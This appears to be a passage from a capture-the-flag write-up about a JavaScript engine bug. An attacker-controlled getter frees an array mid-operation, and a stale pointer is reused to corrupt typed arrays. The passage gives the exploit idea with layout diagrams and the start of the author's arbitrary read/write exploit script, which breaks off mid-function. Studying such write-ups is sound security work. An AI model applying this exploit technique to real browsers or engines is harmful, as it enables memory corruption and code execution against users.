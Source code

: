 ```txt
+
+
+    args.rval().setBoolean(true);  
+  }
```
And we spot the vulnerability, the getter of the array object can be overwritten by javascript(user controlled)!
Given that the getter is called after the array pointer is returned in step1. This means that we can overwrite the getter with a javascript function that changes the memory layout such that the array pointer returned in step1 that is used in step 4 is no longer pointing to the same array!

### Exploit Idea
If we create a large-enough inline array called setup-array (simplified example):
```css
[setup_1] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] 
```
In step1, elements2 stores the array pointer pointing to address of setup_1.
Now we reach step 2, given that we manage to overwrite the getter of toId with a function that deletes setup-array and creates two array(a Uint8Array and a BigInt64Array) in the EXACT same place as setup-array. 
```css
[Uint8Array] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [BigInt64Array] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] [ ] 
```

When we reach step 4, we can end up swapping an element from Uint8Array with the pointer bits of the BigInt64Array since step4 uses the same pointer from step1 and allows swap anywhere within the length of the initial array. 

Turns out we can delete the setup-array, call garbage collection to mark the space as free such that when we create Uint8Array and BigInt64Array they will be allocated to the newly freed space, thus taking the exact space initially taken by setup-array. 

With alot of try and error and debugging this was my final exploit script achieving arb read and write to any address we want. 

```js


function read64(addr) {
    gc();
    gc();
    var writer;
    var obj = new Array(1);
    var obj1 = new Array(30).fill(1);
    objectAddress(obj1);

    Object.defineProperty(obj1, "to", {
        configurable: true,
        enumerable: true,
        get() {
            console.log("Getter for 'to' called");
            change_element2();
            return 8;
        }
    });

    function change_element2() {
        console.log("change_element2 called");
        console.log(objectAddress(obj1));
        obj1 = null; 
        gc();
        gc();
        gc();
        var obj2 = new Uint8Array([1,2,3,4,5,6,7,8]);
```